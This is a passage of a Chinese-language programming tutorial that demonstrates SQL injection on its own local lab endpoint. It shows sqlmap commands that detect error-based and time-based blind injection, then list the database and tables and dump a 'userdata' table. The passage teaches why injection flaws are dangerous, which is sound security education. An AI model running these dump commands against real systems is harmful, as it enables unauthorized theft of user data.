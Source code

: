 使用sqlmap来探索这个接口：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test

```

一段时间后，sqlmap给出了如下结果：

<img src="https://static001.geekbang.org/resource/image/2f/59/2f8e8530dd0f76778c45333adfad5259.png" alt="">

可以看到，这个接口的name参数有两种可能的注入方式：一种是报错注入，一种是基于时间的盲注。

接下来，**仅需简单的三步，就可以直接导出整个用户表的内容了**。

第一步，查询当前数据库：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --current-db

```

可以得到当前数据库是common_mistakes：

```
current database: 'common_mistakes'

```

第二步，查询数据库下的表：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D &quot;common_mistakes&quot;

```

可以看到其中有一个敏感表userdata：

```
Database: common_mistakes
[7 tables]
+--------------------+
| user               |
| common_store       |
| hibernate_sequence |
| m                  |
| news               |
| r                  |
| userdata           |
+--------------------+

```

第三步，查询userdata的数据：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test -D &quot;common_mistakes&quot; -T &quot;userdata&quot; --dump

```
